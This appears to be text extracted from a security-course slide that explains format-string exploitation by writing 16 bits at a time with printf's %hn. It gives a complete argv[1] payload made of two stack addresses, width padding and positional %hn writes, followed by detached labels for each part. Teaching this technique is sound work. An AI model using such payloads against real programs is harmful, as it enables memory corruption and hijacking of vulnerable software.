

# Writing 16-bits at a time
printf %hn means that the address given points to a short (ie, a 16-bit integer)
You can safely put %64000x in a format string
This induces all kind of touchiness since the size of that width indicator may affect stack values, but at least we need only two addresses in our printf instead of four
So final form of argv[1]:
\xde\xf5\xff\xff\xdc\xf5\xff\xff%%64000x%%115\$hn%%18000x%%116\$hn
set value of first write
set value of 2nd write
address of 1st 16-bit write
where to find addr of 1st write
address of 2nd 16-bit write
where to find addr of 2nd write